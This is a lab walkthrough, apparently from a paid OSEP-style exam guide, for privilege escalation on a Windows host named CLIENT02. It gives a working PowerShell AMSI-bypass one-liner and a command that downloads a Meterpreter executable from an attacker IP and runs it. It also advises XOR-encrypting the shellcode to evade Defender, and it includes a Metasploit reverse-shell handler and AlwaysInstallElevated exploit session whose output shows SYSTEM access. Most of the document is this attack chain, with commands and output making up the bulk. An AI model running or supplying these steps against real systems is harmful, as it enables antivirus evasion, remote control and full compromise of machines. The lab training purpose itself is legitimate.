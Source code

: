 # Privesc on CLIENT02

## Upgrading the shell

First thing is to get a stable shell. This is very important and you must do it properly, because this executable will follow you until the end of the lab ;)

Compile a x64 Meterpreter EXE payload that XXXXXXXXXXXX.

** More info [[LINK ONLY AVAILABLE IN PAID GUIDE, BECAUSE SHARED WITH OTHER EXAM SETS]] **

This is covered in the PDF, but the "Shellcode Process Hollowing" from https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/Shellcode%20Process%20Hollowing does it without hassle. Do not forget to XOR encrypt the shellcode (use https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Encoder/shellcodeCrypter-msfvenom.py), do not use msf's encryption.

First, bypass AMSI:  
`$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)`

Retrieve the Meterpreter payload, set the listener and run it:  
`Invoke-WebRequest -Uri http://192.168.X.Y/Meterpreter.exe -Outfile Meterpreter.exe; .\Meterpreter.exe`

## Privesc with AlwaysInstallElevated

The privesc is tricky because Defender will flag some MSI.

You can either:
- create your own MSI package (multiple Github project are present, for example https://github.com/KINGSABRI/MSI-AlwaysInstallElevated, `PS C:\WiX Toolset v3.11\bin> .\candle.exe .\msiexploit.wxs; .\light.exe .\msiexploit.wixobj`)
- use the module `exploit/windows/local/always_install_elevated` of Metasploit. However, you need to tweak it (the default option will be flagged). Disable the built-in listener (set DisablePayloadHandler true), and set the MSI package target to the path of the existing Meterpreter encoded payload (change the payload to run, and use `set ExitOnSession false` `run -j -z` on listener to keep it background)

```
msf6 exploit(multi/handler) > set payload windows/meterpreter_OR_WHATEVER_YOU_COMPILED/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
msf6 exploit(multi/handler) > set LPORT 443
msf6 exploit(multi/handler) > set ExitOnSession false
msf6 exploit(multi/handler) > run -j -z
# Here, run TWICE the met.exe to make sure that the handler doesn't stop after first incoming session, otherwise you will wonder why it doesn't work...
msf6 exploit(multi/handler) > jobs
Jobs
====
  Id  Name                    Payload                          Payload opts
  --  ----                    -------                          ------------
  1   Exploit: multi/handler  windows/meterpreter/reverse_tcp  tcp://192.168.X.Y:443

msf6 exploit(multi/handler) > use exploit/windows/local/always_install_elevated
msf6 exploit(windows/local/always_install_elevated) > set VERBOSE true
msf6 exploit(windows/local/always_install_elevated) > set payload windows/exec
msf6 exploit(windows/local/always_install_elevated) > set session 1

# We can first try with encoded Powershell command, here 'whoami > C:\whoami.txt'
msf6 exploit(windows/local/always_install_elevated) > set cmd 'powershell -enc dwBoAG8AYQBtAGkAIAA+ACAAQwA6AFwAdwBoAG8AYQBtAGkALgB0AHgAdAA='
msf6 exploit(windows/local/always_install_elevated) > run
[*] Uploading the MSI to C:\Users\user\AppData\Local\Temp\uDBjvv.msi ...
[*] Executing MSI...
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/always_install_elevated) > sessions 1
[*] Starting interaction with 1...
meterpreter > cat C:/whoami.txt
��nt authority\system
meterpreter > 
Background session 1? [y/N]  

# Here we run the Meterpreter payload
msf6 exploit(windows/local/always_install_elevated) > set cmd 'C:\met.exe'
msf6 exploit(windows/local/always_install_elevated) > run

[*] Uploading the MSI to C:\Users\user\AppData\Local\Temp\uBnecgivVWuR.msi ...
[*] Executing MSI...
[*] Sending stage (175174 bytes) to 192.168.X.Y
[*] Meterpreter session 2 opened (192.168.X.Y:443 -> 192.168.Z.Z:49798 ) at 2022-11-07 11:39:25 +0400

[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/always_install_elevated) >
```


Grab the flag C:\Users\Administrator\Desktop\proof.txt

If you have any question, feel free to contact me on Discord Tamarisk#3723
Note : this document is subject to evolution to better fit your needs. We keep in touch !